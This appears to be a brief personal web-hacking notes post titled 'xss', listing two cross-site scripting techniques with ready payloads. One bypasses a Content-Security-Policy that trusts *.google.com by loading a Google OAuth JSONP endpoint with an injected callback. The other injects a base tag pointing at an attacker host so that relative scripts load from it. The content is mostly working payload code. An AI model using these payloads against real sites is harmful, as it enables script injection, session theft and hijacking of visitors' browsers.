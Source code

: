 ```yaml
---
title: xss
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```


> **Google JSON API XSS**

If the target server is accepting addresses from Google, use the

```Content-Security-Policy: default-src 'self'; script-src *.google.com```

```html
<html>
    <head>...</head>
    <body>    
        <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    </body>
</html>
```


> **base tag url XSS**

```html
<base href="https://attacker.io/">
```
